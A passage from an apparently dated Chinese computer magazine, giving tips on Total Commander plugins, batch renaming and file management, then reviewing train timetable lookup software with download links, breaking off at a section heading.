有些奇怪的是，Wipe Plugin这个插件竟然也被归入压缩的家族，它的作用有些类似于文件粉碎机，如果你的硬盘上有非常重要的数据，那么可以使用这个插件进行删除操作，安装时可以自行指定一个扩展名，例如“wipe”。
选择需要删除的文件，按下Alt+F5打开压缩文件对话框，在压缩格式下拉列表框中选择“wpe”，确认后即可将不希望泄露出去的秘密永久删除，当然在确认之前请务必检查是否为重要文件，这一点很重要。

### (7) Exif

EXIF信息读取插件。
下载地址：http://ghisler.fileburst.com/content/wdx_exif.zip
支持EXIF是数码相机必备的功能之一，借助Exif这个插件，我们可以在TC中直接读取数码照片的EXIF信息，而不再需要调用ACDSee或打开Windows的属性窗口，而且还可以在TC中调用这些信息快速完成批量重命名、搜索等任务。
Exif插件支持JPG、RAW(佳能)等格式的数码照片，可以设置读取数码照片的Width(宽度)、Height(高度)、ISO(曝光补偿)、Make(相机厂商)等信息，看起来应该说是非常的直观和清晰。如果你觉得这些信息还不够，可以设置显示更多的列项目。

### (8) DiskDir Extended

光盘管理插件，可以用来创建光盘文件列表。
下载地址：http://www.totalcmd.net/plugring/diskdir_extended.html
插件安装后会与.lst扩展名自动创建关联，首先向光驱插入需要创建索引文件的光盘，然后运行TC，切换到光盘的根目录或某一路径，按下Ctrl+A选择所有文件，注意事先设置显示所有文件，单击工具栏上的压缩按钮或者按下Alt+F5组合键，打开“压缩文件”对话框，在压缩格式下拉列表框中选择“lst”，如果需要索引多张光盘，可以将第1张光盘的索引文件名设置为001，以后可以依次类推，这样可以让以后的搜索工作更轻松。
接下来的工作就简单多了，确认后即可将索引文件输出至另一窗格的当前路径下，我们看到的会是一个压缩文件的图标，当然扩展名为lst，双击可以进行浏览，但无法浏览其中的具体内容，除非这张光盘正在光驱中。不过，最简单的方法是连双击*.lst都不需要，直接按下F3键即可快速查看索引文件中的内容。

### (9) Device Manager

设备管理器插件，可以在TC中直接访问设备管理器，而不需要从控制面板中进入。
下载地址：http://www.totalcmd.net/plugring/devman.html
安装此插件后，我们需要从TC的“网上邻居”中进行操作，双击“Device Manager”项目即可显示设备管理器中的内容，需要查看哪一款硬件设备，再次双击即可。值得一提的是，除了仿设备管理器进行操作外，我们还可以完成删除设备、查看信息、故障帮助等功能。

### (10) CAD View

CAD图纸查看插件，可以预览AutoCAD的DWG、DXF等格式的图纸。
下载地址：http://www.cadsofttools.com/download/cadview.zip
如果你在一台没有安装AutoCAD软件的机子上查看DWG或DXF格式的图纸，那么这款小插件可以帮上你的忙，如果你没有注册的话，那么每次使用时需要单击“Trial”按钮，但并不妨碍正常使用。虽然无法对图纸进行编辑，但其中的内容还是可以看得清楚，另外还可以对图纸进行放大、缩小、放置、另存、打印等操作，而工具栏上各个按钮的作用也是非常的实用。
不过，如果你使用的CAD View插件没有注册，那么虽然允许导出为BMP、WMF、GIF、JPEG等格式的图像文件，但文件中会显示版权信息。

## 4.玩转图像插件

图像插件是TC插件中一个重要的插件，毕竟按下F3查看各种格式的图像文件，实在是要方便多了。这里，笔者介绍两款比较经典的图像插件：

###### (1) 功能丰富的SGViewer插件

下载地址：http://www.totalcmd.net/plugring/sgviewer.html
在默认设置下，如果不安装SGViewer插件，那么TC只能浏览BMP格式的图片，如果是其他格式，显示的将是一片乱码。
在安装插件之前，如果在TC中双击图像文件，那么会自动调用默认的关联程序进行浏览，例如画图、ACDSee、Photoshop等。安装此插件之后，按下F3键即可进行浏览，如图4所示，通过窗口左侧工具栏上的按钮，可以完成一些简单的操作，例如前进、后退、放大、缩小等，按下鼠标滚轮可以切换到前一张或后一张，我们还可以在这里一眼看到当前图片的尺寸和颜色、当前文件夹中的图片数量等内容，应当说操作还是比较方便的。


如果在预览之前选中了多个图像文件，那么除了通过左、右两个方向键进行切换外，也可以按下“P”或“N”快速跳转。如果你觉得以这样的方式查看图像，效率还是低的话，那么可以按下Ctrl+Shift+F1组合键切换到缩略图查看模式，这样看起来就一目了然了，需要返回时可以再次按下Ctrl+Shift+F1组合键。
你可以在右键菜单中找到为图像“减肥”的功能，选择“Image→Resize”，或者直接按下Shift+R组合键，执行后会打开对话框，在“New Size”下面的“New Width”框中通过微调开关进行调节，或者直接输入相应的数值，这里更改为800×640像素，其实下面的“New Height”数值会自动更新，最后单击工具栏上的保存按钮进行另存，这里提供了BMP、JPG/JPEG两种选择。

###### (2) 界面亲切的Imagine插件

下载地址：http://www.nyam.pe.kr/dev/imagine/download/beta/Imagine_1.0.0.0_beta_5_20070630.zip
虽然SGViewer的功能也相当强大，但一来界面令人害怕（毕竟是全英文），另外功能也并不是很多，还是试一试这款Imagine插件吧。按下F3键，图5所示的窗口看起来比前面的SGViewer插件增加了不少功能按钮，图片信息显示在窗口的底部，最开心的当然是相关的提示信息和快捷菜单中的内容都变成了中文，这样使用起来就方便多了。默认设置下，Imagine插件并未自动启用对鼠标控制的功能，用户必须单击工具栏上的鼠标形状图标才行。



果、缩略图效果、创建多媒体等。

## 5.玩转文档预览插件

除了查看图像文件之外，TC还可以在按下F3功能键之后，直接预览DOC、XLS、PDF、DWG这些格式的文档，当然前提是你的系统中必须已经安装了相关的应用程序，否则当然是不能实现的。

###### (1) 预览Office文档

其实，很多时候我们并不需要对Office文档进行编辑，只是为了查看一下文档中的内容就可以了，效率既高，又不会受到宏病毒的威胁。如果安装了OfficeView和Excellence这两款插件，你就不用再打开个头庞大的Microsoft Word或Microsoft Excel程序，按下F3键即可快速预览。
OfficeView插件安装后可以预览MS Word、Write、RTF等格式的文档，Excellence安装后可以预览XLS格式的文档，但需要指出的是OfficeView插件要求“\Program Files\Common Files\Microsoft Shared\TextConv\”文件夹中必须存在相关的支持文件，这在官方的下载页面上讲得清清楚楚。
假如发现安装这两款插件后，按下F3键并不能正常预览，那么请进入“\Program Files\Common Files\Microsoft Shared\TextConv\”文件夹，检查这里是否存在MSWRD832.CNV和EXCEL32.CNV两个文件，正常情况下如果系统中已安装Microsoft Office，那么这两个文件应该是存在的，假如没有的话，可以从Microsoft Office的安装光盘中复制过来。
一般情况下，MSWRD832.CNV文件是很容易找到的，但EXCEL32.CNV这个文件就比较困难了，此时可以从http://ghisler.fileburst.com/lswl_excellence.zip下载Excellence插件，安装后即可正常浏览*.xls文档（见图6），可惜的是至今还没有预览*.ppt文档的插件。

| A | B | C | D |
|---|---|---|---|
| 2008学年第2学期 | | | |
| 学号 | 姓名 | 平时成绩 | |
| 02003024301 | 蔡金花 | 85 | 75 |
| 02003024302 | 陈丽花 | 73 | 72 |
| 02003024303 | 陈要 | 87 | 74 |

###### (2) 预览PDF文档

虽然Adobe提供了免费的Acrobat Reader，但运行时也会占用相当的资源，当然远远不如在TC中按下F3键进行预览来得方便了。
这里需要用到Pdfview插件，同时还必须安装GhostScript，要求版本号必须是5.5以上，目前最新版本为8.51，下载地址为http://prdownloads.sourceforge.net/ghostscript/gs851w32.exe?download，安装时请勾选“Use Windows True Type fonts for...”

> 小提示：假如完成以上设置后仍无法正常浏览*.doc、*.xls文档，那么可能是与系统中已安装的浏览插件存在冲突，请打开“配置→插件”窗口，单击“查看器插件”小节下的“配置”按钮，将office.wlx、excellence.wls两个插件的位置调整至相关浏览插件的前面，这样可以获得优先权限，当然也可以将相关浏览插件删除。

###### （3）预览CAD图形

这款名为CAD View的插件安装后可以预览AutoCAD的DWG、DXF等格式的图纸，这在没有安装AutoCAD软件的计算机上查看DWG或DXF格式的图纸将非常实用，下载地址是http://www.cadsofttools.com/download/cadview.zip，令人意外的是这款插件还提供了包括简体中文在内的多语言包。
按下F3键可以快速预览CAD图形，虽然无法对图形进行编辑操作，但查看图形还是非常清楚的，例如放大、缩小、放置、另存、打印等各类操作都可以正常完成，如果未曾注册的话，每次使用都需要单击“Trial”按钮，而且打印时会显示版权信息，但并不妨碍正常浏览。



> 小提示：GhostScript实际上是一个软件包，包括PostScript解释器、C语言的函数库和PDF文件的解释器。正是有了这个解释器，GhostScript才能够识别很多款PostScript打印机，并将PostScript文件在指定的设备上打印出来。

#### 七、玩转TC的批量重命名

拥有了数码相机，自然也就拍摄了海量的数码照片，不过这些照片的文件名都是那么的怪异，例如“DSC_00111_MGryqkZle2N7.jpg”看起来就很不顺眼；爱听歌曲的朋友，喜欢寻找动听的MP3，但网上下载回来的MP3文件名大都很不规范，这其中就涉及到一个重命名的问题，逐个重命名的手工操作自然不可取，何不利用强大的TC来代劳？
作为Windows资源管理器的替代工具，TC(Total Commander)以其强大的文件管理功能和友好的双窗格式界面，再加上众多的快捷键，目前已经成为许多朋友的装机必备软件，例如本文提及的“批量重命名”功能就相当实用，如果你仔细研究的话会发现这个功能较Windows自带的要出色得多。

### 1.快速入门

选择需要进行批量重命名的目标文件，按下Ctrl+M组合键或者单击工具栏上的相应按钮，此时我们会看到图7所示的“批量重命名”对话框，这里提供了项目丰富的重命名选项供用户选择，默认设置下当然是只有“文件名”和“扩展名”，它们分别使用[N]和[E]进行表示。

###### （1）读懂批量重命名的规则

这里要说明的是，TC在批量重命名时采取了“[*]”这样的规则，其中的“*”代表批量重命名的要求，由于我们可以理解的原因，TC都是选择英文字符作为重命名规则，例如N代表文件名、YMD代表日期(创建日期)、hms代表时间(小时/分/秒)，直接单击某个规则项即可使其显示在“文件名”或“扩展名”下面的文本框中。

###### （2）计数器

这里的“计数器”也非常值得一提，单击“[C]计数器”后会在文件名的末尾自动添加相应的序号，默认的起始值、步长、位数都是1，当然你也可以将序号添加到文件名或扩展名的任意位置，只要事先将光标插入到相应位置即可，或者手工调整各个重命名规则的位置。
如果你能够在计数之前对文件按照“日期”或“大小”进行排序，那么这种方法将相当实用。

### 2.组合命名实例

下面，我们通过几个实例来见识一下TC批量重命名的出色表现：

### 实例1：快速替换特定字符

TC在批量重命名时可以对文件名或扩展名的特定字符进行快速替换，例如我们现在需要将文件名中所有的书名号替换为中文全角的双引号，可以按照如下方法进行操作：
- 第1步：选择需要替换的目标文件，在“查找”后面的文本框中输入“《”，再在“替换为”后面的文本框中输入中文全角的双引号，这里当然是左边的双引号，此时我们可以在操作窗格的“新文件名”列预览到替换后的效果，如果确认无误，就可以单击窗口底部的“开始”按钮进行重命名。
- 第2步：再次选择需要替换的目标文件，在“查找”后面的文本框中输入“》”，再在“替换为”后面的文本框中输入中文全角的双引号，注意现在应该是右边的双引号，很快就可以替换完成。

通过两次操作完成替换工作，这主要是考虑到“《 》”中间的字符数不可能是固定的，直接替换显然是不可取的。

### 实例2：只取特定字符作为文件名

如果你需要选择文件名的特定字符作为文件名，只要源文件名中存在一定的规则，那么这个工作在TC中是非常容易完成的。例如很多朋友手头拥有的许多数码照片，其文件名前面大多有着DSC_0001这样的字符，其实这些字符是没有什么意义的，我们需要的往往只是后面的字符而已，此时就可以只选择特定字符作为文件名。
首先选择目标文件，按下Ctrl+M组合键打开批量重命名对话框，单击“[N#-#]范围”，此时会弹出对话框，在这里拖黑选中“_”后面的字符，注意标点符号也算作一个字符，确认后注意还应该在最顶部的“文件名”框中去除已经无效的“[N]”，现在我们可以在窗口中看到批量重命名后的预览效果，如果确认无误，就可以单击窗口底部的“开始”按钮正式进行重命名工作。

### 实例3：为文件名添加更多的属性

由于工作的需要，很多情况下我们需要为文件名添加更多的属性，也就是说将路径、大小、创建日期、创建时间、属性、文件版本、版本号、文件类型等相关信息全部放到文件名，这样看起来就直观多了。
在TC的“批量重命名”对话框中，默认设置下这里只会显示文件名、大小、日期、位置等有限的信息，该如何将相关信息添加到文件名中呢？单击“[-?]插件”，在弹出菜单中选择相关的列信息，确认后即可在窗口中预览到重命名的效果。

#### 八、玩转TC的一些技巧

### 1.覆盖同名文件更保险

我们知道，当使用TC执行复制操作时，如果遇到同名文件，不管是文本文件、图片文件、音频文件等类型，都会弹出对话框，在这里你可以选择是否需要替换或跳过，当然也可以直接选择‘重命名’。
为了防止误覆盖重要的文件，你可能会进入资源管理器查看相关文件究竟是否属于同一内容，或者关闭这个对话框返回TC窗口再按下F3功能键进行查看。其实，我们根本不要如此麻烦，请勾选对话框中的‘缩略图’选项，然后会看到与刚才大相径庭的内容，原本只能显示‘×’和‘√’的位置，清楚地显示了两幅图片的缩略图，这下可就看得清清楚楚。

> 小提示：勾选‘自定义项目’选项，然后单击右侧的‘+’号，可以在弹出的对话框中添加更多的属性，数码照片可以添加数码相机品牌、分辨率、拍摄时间等属性，MP3歌曲可以添加演唱者、专辑名称等属性，当然这需要安装相关的内容插件（WDX）之后才能够实现。

### 2.播放媒体文件也能自动播放

安装Mmedia、DSView、SMView插件后，按下F3键可以播放包括*.mp3、*.wav、*.avi、*.mpeg等格式的影音文件，但遗憾的是由于某些原因在按下F3键后却无法自动播放，而是还必须单击播放按钮手工启动，这可未免不太方便了。
解决的办法很简单，首先按下F3键手工播放影音文件，然后单击‘Options’标签页，在这里勾选‘Autostart play’复选框。
如希望重新播放某个文件，可以右击‘正在播放’栏，打开‘选项’对话框，默认只播放1次，你可以自由设置需要播放的次数，当然也可以设置‘始终重复’，这样就可以实现自动循环播放了。

> 小提示：TC的多媒体播放插件其实都是调用了Windows内置的Windows Media Player进行播放，不过你也可以在‘Options’标签页的‘Player’下拉列表框中重新设置默认的播放组件。

### 3.手工打造绿色TC

如果你经常重装系统，或者需要在网吧、公用计算机上使用TC，那么建议打造一款绿色的TC版本，这样就可以免去繁琐的设置工作。在旧版本中，打造绿色TC并不是一件简单的事情，必须借助第三方软件例如Totalcmd手工完成诸多操作，而7.01版本则简单多了：
用记事本打开wincmd.ini文件，在[Configuration]小节中找到UseIniInProgramDir，将默认值由0改为7，如果没有的话可以自行添加。
将[PackerPlugins]、[FileSystemPlugins]、[ListerPlugin]小节下的绝对路径更改为相对路径，也就是用‘%COMMANDER_PATH%’进行替换，然后就可以将TC的安装文件夹任意复制携带了。

### 4.巧妙复制目录结构

在TC中复制文件或文件夹的操作十分简单，按下F5功能键，或者用鼠标直接拖曳到另一窗格下，但如果仅仅需要复制某个目录的结构，当然不包括其中的文件，这就不太容易办到了。最笨的办法是一个一个手工创建，或者一股脑儿复制过去后再逐个删除。

###### （1）为复制限定特殊条件

首先选择需要复制的目录（当然是最顶级的目录），然后按下F5键，此时会弹出对话框，注意请暂时不要点击‘确定’按钮，先在‘只选择下列类型的文件’框中输入如下内容：*.hgfedcba，其实输入其他的扩展名也可以，只要尽量古怪、尽量生僻一些就行了。
现在，我们可以确认复制操作，由于源目录中当然没有符合条件的文件，因此复制到目标路径后的效果，就是复制了一个不包含文件的空目录结构。

###### （2）利用规则进行

上面提到的方法虽然简单，但每次都需要手工输入扩展名，未免稍显麻烦一些。其实，我们还可以事先创建好若干规则，下次直接调用，这样就方便多了。
首先选择需要复制的目录，然后按下Alt+F7组合键，此时会弹出一个对话框，搜索什么内容其实无关紧要，注意文件名最好还是‘*.hgfedcba’，然后切换到‘高级’标签页，在‘属性’小节中只选中‘文件夹’复选框，在‘加载/保存’标签页中保存搜索规则，例如取名为‘onlydir’，接下来关闭对话框返回TC主界面，仍旧选中需要复制的目录，按下F5键，当弹出窗口时，就可以在‘只选择下列类型的文件’下拉列表框中选择刚刚创建的‘onlydir’项了。

###### （3）利用插件完成

有一个名为DirCpy的插件可以完成上述操作，目前最新版本是1.04，从http://physio-a.univ-tours.fr/tcplugins/dircpy.htm可以下载，安装后打开‘配置→选项’对话框，将dircpy.wcx插件关联的扩展名设置为‘WCXs’。
需要复制目录结构时，首先选中某个顶级目录，当然右侧窗格中要事先切换到复制到的目标路径，然后按下‘Alt+F5’组合键，选择刚才设定的‘WCXs’压缩格式，最后点击‘确定’按钮就可以得到完整的不包含文件的目录结构了。

### 5.创建或校验SFV/MD5文件

你并不需要使用第三方软件来创建可校验*.sfv或*.md5文件，因为TC自5.0版本起已经提供了这一功能。
创建校验文件时，首先在左窗格中选中源文件，这些选中的文件将会以红色显示，然后从‘命令’菜单下选择‘创建CRC校验文件（SFV格式）’命令，此时会弹出对话框，一般不用更改选项，如果需要创建MD5校验文件只要复选‘MD5’项，然后点击‘确定’按钮即可，很快就可以得到相应的SFV或MD5校验文件了，这些校验文件的个头都非常小，一般只是几百字节而已，上传文件时请附加在内以备用户校验。
如果需要校验从网上下载的SFV或MD5文件，应该将下载回来的分卷压缩包和SFV/MD5文件放在同一路径下，选中SFV/MD5文件，从‘命令’菜单中执行‘检验CRC校验文件（SFV格式）’命令，然后我们会看到校验进度框，这里会显示每个分卷压缩文件的校验结果，如果全部显示为‘CRC正确’，那就说明分卷压缩文件无任何问题。

### 过年了，我要回家——列车查询软件及网站使用推荐

◆文 / TMG zgpp

引言：“过年了，我要回家”——相信绝大多数的朋友都有远行的经历。无论是出差抑或是回家，每一次的出行总少不了一些准备。在以铁路为主要远行交通线路的我国，火车这一交通工具正是大多数人会选择的出行工具。而出行前的线路准备也多以列车查询为主。在下文中，笔者将会介绍四款列车查询软件以及三个列车查询网站，为准备出行的朋友们提供一些参考，各位朋友不妨拨冗看看，为自己即将到来的远行，挑选一个合适的“参谋”。

#### 第一篇 经典列车查询软件推荐

##### 一、盛名时刻表

###### 1. “盛名时刻表”简介

在介绍这款软件前，要简单说说一种情况。常有使用列车查询软件的朋友抱怨一些软件不好用，辛辛苦苦查来的讯息不仅没有提供帮助反而起到了误导的作用。这当然是因为铁路运营向来是一个机动的事业，时常有变。在这个前提下，老旧与不准确的信息即使再丰富，也不存在任何意义。只有提供较为准确的信息的列车查询软件才有其存在价值。鉴于此，各类列车查询软件也多以力争提供最准确的信息为奋斗目标。

接下来要为大家介绍的“盛名时刻表”正是这样一款以快速更新、高度准确、简易查询为特点的绿色列车查询软件。作为同类软件中以“专业”而闻名的翘楚，“盛名时刻表”一直以“做最专业的铁路列车时刻表”（参见盛名网站首页）为目标。其软件仅有一个文件，最新版本大小仅为760KB左右，下载后可直接使用，不需安装及解压。同时具有在线升级功能。小而精，准而易。

###### 2. “盛名时刻表”特点

和同类相似功能的软件相比，“盛名”的优势在于以下几点。

- 首先，提供的票价信息更为准确，在此需要特殊提一下，“盛名”是首款可以对特殊票价进行处理的列车时刻表软件。
- 其次，“盛名”提供的列车信息相对而言更完整，在其提供的列车查询中，还包括临时列车时刻，当然由于临时列车的快速变更性，其信息有一定滞后性，这在之后的使用介绍中，会有详述。
- 再次，其数据更为精确，更新更及时。“盛名”提供的数据信息尤其是票价信息会随着铁路部门票价的上浮与下调作及时调整。尤其是在春运期间，其软件提供方力保信息的准确性，有关票价信息及铁路运行图信息的数据会即时调整与更新。
- 最后，“盛名”具有最“专业”的功能。其票价完全根据实际列车编组显示，如某次只有硬座、软座，则只显示硬座、软座票价，硬卧、软卧则不会显示。同时显示列车所有到站票价清单，过滤无用信息，让用户一目了然，使用更为简易方便。

###### 3. 使用“盛名时刻表”

作为一款简单易用的绿色软件，“盛名时刻表”的使用方法相对比较容易。笔者将通过查询某一线路列车来具体介绍“盛名”的使用方法。

在使用之前，首先要下载该软件。由于该软件版本更新较快，建议用户朋友尽量搜索最新的版本下载，以增加其工作的准确性。当然，该版本提供在线升级功能，下载后，可在线升级从而省去重复下载的麻烦。以下为各位朋友提供最新版本的盛名时刻表的下载地址：

http://www.smskb.com/down/盛名时刻.exe （2007年10月1日发布1.99pc正式版本）

接下来笔者将以今年十月一日正式启动的“盛名1.99pc版”为例，介绍其使用方法。

##### （1）“盛名时刻表”主界面

下载后双击软件图标，即可进入软件主界面，如图1所示。

由图1可知，“盛名时刻表”的主界面主要由三部分构成。即上部的数据显示栏，中部数据查询栏及下部的广告栏。

在数据显示栏中，以红字清楚显示用户所查询列车车次、始发及终点站、列车时刻、各等级票价等详细信息。

在数据查询栏中，用户可通过站站查询（即输入出发站及到达站）来查询有关该信息的全部列车情况，同时用户也可通过具体的车次进行查询。此外，“盛名”提供多种选择条件查询，如“始发车”、“终到车”、“临客”、“固定列车”、“精确站名”及“去除重复车”等六种查询限制条件，用户可通过选中或去掉该条件前的复选框来精确查询信息。

广告栏则是刊登一些有关出行的广告信息。此外，主界面标题栏显示软件的版本，底栏则显示有关查询结果的统计信息及变换显示的一些使用技巧。

##### （2）运用“站站查询”搜索信息

笔者欲查询由北京始发、到达站为南京的所有固定列车。选择“站站查询”的方式，在“发站”标签后下拉列表框内输入“北京”，“到站”标签后下拉列表框内输入“南京”，同时选中“始发车”及“固定列车”这两个限制条件前的复选框，单击“查询”，在数据显示栏中即可以红字显示符合要求的所有车次及其时间、票价等数据信息。

此处需要注意的是，下拉列表框内容除支持汉字全名输入外，亦支持站名首字母输入。如“北京”可输入为“BJ”， “南京西”可输入为“NJX”。 在输入发站名与到站名后，也可单击“反向”按钮，则显示数据为始站与到站颠倒后的列车信息。如单击“中转”按钮，则显示可中转列车。

##### （3）查询具体列车详细信息

如双击在数据显示栏内的具体车次，则会弹出一个窗口，以蓝字显示该车次的所有具体停靠站时间、里程等信息。仍然查询由始站“北京”到“南京”的列车车次，双击数据显示栏中“D31”次列车，弹出窗口，显示该次列车所有停靠站。该车是由北京始发开往上海的动车。由北京到达南京所经过的所有站含“天津西”、“徐州”、“蚌埠”、“南京”由蓝字显示，在我们查询范围之外但在该车次线路以内的“上海”站则以黑字显示。此处窗口的列车信息可打印，单击“打印”按钮添加打印机任务即可。

##### （4）运用“车次查询”搜索信息

当然，除按照“站站查询”的方式外，亦可选择“车次查询”的方式搜索信息。如上例，仍然是寻找由北京始发到南京的固定列车，在车次后的文本框中直接输入“D31”后，则在数据显示栏中红字显示出“D31”北京至上海动车的详细信息。同样，双击该车次可显示出该车次具体停靠的站点及时间等信息。由于此处我们要寻找的是北京到南京的路程信息，因而我们可以在输入具体车次后，在“站站查询”中输入“北京”“南京”，之后单击“结合站名”按钮，则可显示出D31次列车关于北京到南京路程段的全部信息。

##### （5）“盛名时刻表”其它使用技巧

除上文介绍过的“盛名时刻表”的一些基本使用方法外，软件本身还提供了一些技巧性使用方法。下简述几种：

- 快捷键：“盛名时刻表”提供的快捷键包括F2发站、F3到站、F4站站查询、F5反向查询、F6车次、F7车次查询、F8车次查询。
- 排序：单击标题可进行升（降）序排列。如单击“硬座”可按硬座票价升（降）序排列。
- 查询及显示：在为限制始发与否的车次查询中，数据显示栏红字显示为始发列车，蓝字显示为中转列车。如只输入发站，可查询该站所有出发列车。如只输入到站，可查询该站所有到达列车。如欲查询某站所有列车，只需查询该站所有出发列车+该站所有终到列车即可。
- 打印：“盛名时刻表”的主界面窗口及弹出式窗口中均有“打印”按钮，单击即可添加打印任务，输出所查询信息。

##### 二、石开旅行时刻表

###### 1. “石开旅行时刻表”简介

“石开旅行时刻表”是一款十分具有特色且方便好用的列车查询软件。软件大小为3.7MB左右。其根据铁道部最新铁路旅客旅行时刻表对数据进行即时更新，用户可以简捷地获得全面、准确的信息。除文字查询外，“石开旅行时刻表”独辟蹊径，增加对铁路线路及里程的平面地图式查询，更加直接明了。其使用方法亦十分简单易懂。同时提供丰富的打印功能，更有助于用户使用。

###### 2. “石开旅行时刻表”特点

上文已提过“石开旅行时刻表”是一款非常具有特色的列车查询软件。其“特殊之处”则体现在接下来要为朋友们介绍的这几点中。

首先，本款软件具有双重查询功能。“石开旅行时刻表”不同于一般列车查询软件，除文字查询外，还提供地图式城市、里程查询，更直观、方便。

其次，“石开旅行时刻表”具有非常人性化的软件设计。无论是界面的文字、图形兼备的显示功能，还是自主查询、询问查询兼备的查询功能，处处显示其人性化的设计。

最后，本款时刻表还提供非常丰富的打印功能，可将用户所查询信息自动转化为准确易观看的打印版本添加至打印任务中，更便于用户使用。

###### 3. 使用“石开旅行时刻表”

在简单介绍过“石开旅行时刻表”后，下面让我们来看一看如何使用这款贴心的“列车助手”。很多软件下载网站都提供“石开旅行时刻表”的下载。下载后需要安装方能使用。其安装过程十分简易，在此不做赘述。以下为各位朋友提供一个新版本的下载地址：

`http://www.lxsk.com/down/timetable.exe`（石开旅行时刻表 2007 build1002官方下载）

接下来，笔者将以以上版本的时刻表软件为例，为各位用户朋友简单介绍其使用方法。

##### （1）“石开旅行时刻表”主界面

“石开旅行时刻表”的主界面十分具有特色（图2），直接展现其地图查询与文字查询融为一体的特色。打开软件，映入眼帘的便是一幅“中国铁路干线图”。这当然不仅仅是一幅图而已，用户朋友可根据需要单击地图上的地名，从而选择该城市附近的车站及里程。

其主界面分为三部分：菜单栏、查询主体栏、打印及其它信息查询栏。

在菜单栏中，其提供“文件”、“？”、“在线查询”三个菜单，分别提供列车查询、软件使用帮助及在线网页查询功能。

在查询主体栏中，又分为两部分。上部是文字查询，用户可根据需要选择“起始站”、“中转站”、“终到站”等条件查询所需列车信息。在其下方则是中国铁路干线图，用户可在此选择城市，在“附近车站”一栏中查看与该城市车站有关的临近车站信息。在干线图底部，用户可根据需要进行“中国铁路干线图”、“铁路分布区域图”、“查询结果”及“车次详细信息”选项的切换。默认为“中国铁路干线图”。

在打印及其它信息查询栏中，用户可根据需要进行信息打印，单击相关按钮即可。同时在该栏中也不时提供一些广告信息及酒店、机票预定等信息。

##### （2）地图查询

“石开旅行时刻表”的地图查询功能可实现某一车站与其附近车站里程的查询。其功能可通过“中国铁路干线图”整体查询或“铁路分布区域图”局部查询来实现。

利用“中国铁路干线图”这一铁路地图来查询车站之间里程。欲查询“北京”与其周围车站里程，则在地图中单击“北京”，则在“附近车站”显示栏中显示出北京与其周围车站的里程关系。朋友们当然也可通过“选择距离”来进行相关查询。

##### （3）文字查询

“石开旅行时刻表”的文字查询功能，即输入或选择发/到站，从而查询该线路车次相关信息。具体使用方法简介如下：

窗口上面有三个输入车站的窗口依次为“起始站”、“中转站”、“终到站”及“车次查询”。“石开旅行时刻表”的文字查询功能即通过在这些输入栏中输入文字内容而实现。

如欲查询从“北京”发车至“广州”站的列车信息，则在“起始站”中输入“北京”，在“终到站”中输入“广州”，单击“确定”则在“查询结果”中显示出相关信息，包括相关列车的时间、里程、各等级票价等信息。

当然也可使用“按车次查询”，即输入具体查询车次名称，单击“确定”即可。

一、站名的输入不仅支持中文输入，同时支持拼音输入，亦可在输入某一汉字后，通过其下拉列表选择所需站名。
二、“查询结果”可按照多种方式排序，如“按车次排列”、“按开车时间排列”、“到站时间排列”、“总旅行时间排列”、“按里程排列”、“按票价排列”，只要选中该排序方式前的按钮即可，非常方便、清楚。

通过文字查询获得所需要的查询结果后，用户还可根据需要获得具体某一班次列车的详细信息。方法有两种，双击“查询结果”中该车次或单击该车次后再选择“车次详细信息”即可。

仍然是以查询由北京到广州的列车信息为例。通过初步的查询获得查询结果后，双击“k598/k599”列车即可获得有关该次列车的详细信息。包括其细节信息的统计、该车次的全部停靠站、到站时间及里程统计、车次的票价说明，十分具体，一目了然（如图4）。

K598/K599

| 细节 | 票价 |
| :--- | :--- |
| 发车时间: 北京西 (05:50) | 硬座: 253 |
| 到达时间: 广州 (09:58) | 硬卧上: 428 |
| 全程共计: 时间: 28:08 公里: 2294 车站: 25 | 硬卧中: 443 |
| | 硬卧下: 458 |
| | 软座: 402 |
| | 软卧上: 675 |
| | 软卧下: 705 |

##### （4）人性化软件设计

值得一提的是“石开旅行时刻表”的人性化软件设计，其提供的信息非常具体。如图4所示，其统计了重要的发、到站时间及里程、站点信息，此处虽看似无关紧要，却体现了其软件编写者的用心。

此外，“石开旅行时刻表”除提供标准票价信息外，还提供如“折扣”、“学生票”、“残半票”等不同票价的信息。由于此类信息的变更较为频繁，本软件也十分注意在此方面的及时更新。于细节处见其全体，可见“石开旅行时刻表”的负责与专业精神。

##### （5）丰富的打印功能

在使用“石开旅行时刻表”的过程中，用户一定可以发现其另一大优点，即十分丰富的打印功能。

用户在查询信息完毕后，欲保留该信息作为购票或乘车参考时，即需用到本时刻表丰富的打印功能。

接上述的查询由北京到广州的案例，单击界面打印及其它信息栏中的“打印查询汇总”按钮，即可将查询结果转化为文本格式的可打印文档。

而若单击打印及其它信息查询栏中的“打印查询明细1”按钮，则可将具体车次信息转化为文本格式的可打印文档。

在使用“石开旅行时刻表”的过程当中，还有许多其它的打印辅助功能，在此不一一赘述，用户朋友可以在实际使用过程中逐一发掘。

##### 三、全国列车查询系统

###### 1. “全国列车查询系统”简介

作为一款非盈利性列车查询软件，“全国列车查询系统”的名字起得十分宏大，不过它其实是一个页面非常精简小巧的软件。整个软件大小仅为3MB左右。由于打开软件所看到的主界面即是一幅包含中国铁路线的地形概图，乃至有媒体曾戏称本软件简直是把中国铁路线路图搬到了Google Earth上。“全国列车查询系统”具有十分强大的手动设置功能及丰富的地图功能，使用时总会让人误以为自己是在使用专业的地理地形软件。笔者认为鉴于其丰富的地图及线路功能，本软件更适合喜爱研究铁路线路而非出门列车查询的用户使用，使用乐趣大于实用性能。

###### 2. “全国列车查询系统”特点

尽管笔者认为这是一款使用乐趣远大于实用性能的列车查询软件，但仍不否认其在进行列车查询时所具有的一系列优点。现简述如下：

- 首先，本软件具有非常强大的手动设置功能。用户朋友通常将列车查询软件作为一项实用工具使用，因而往往不关心其页面设置或功能设置，经常是按照原有设定直接使用。“全国列车查询系统”在这一点上进行了一些改进，使用户在使用时可以更自由自主并充满乐趣。其可进行如风格设定、显示设置、结果设置、方案优先设置等多种自主设定，充满乐趣。
- 其次，本款软件具有十分强大的地图功能。如果说上文中提到的“石开旅行时刻表”中的地图带给用户朋友既直观又实用的感受，那么笔者认为“全国列车查询系统”的地图功能会带给用户更直观更富有乐趣的享受。其地图设置并非采用标准平面图，而是将线路图置于地形图之上，佐之以超级鹰眼，使用时仿佛置身卫星，鸟瞰全国。并可根据需要随时点击地图上某处放大或缩小该区线路图，使用时倍增乐趣。
- 最后，其具有十分新奇的线路输出功能。“全国列车查询系统”在运用地图功能搜索列车信息时，显示结果有别于传统的列车查询软件。在其优秀的地图功能基础上，逐点显示出所查询的列车到站情况并构成一幅完整的地形线路图，设计十分新颖。

#### 3. 使用 “全国列车查询系统”

